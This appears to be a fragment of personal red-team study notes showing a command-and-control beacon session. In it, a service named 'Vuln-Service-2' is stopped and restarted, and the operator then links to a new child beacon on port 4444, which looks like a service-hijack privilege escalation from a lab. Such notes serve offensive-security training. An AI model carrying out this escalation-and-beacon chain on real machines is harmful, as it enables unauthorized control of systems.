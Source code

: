 ```
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

beacon> run sc stop Vuln-Service-2
beacon> run sc start Vuln-Service-2
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (10:19 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
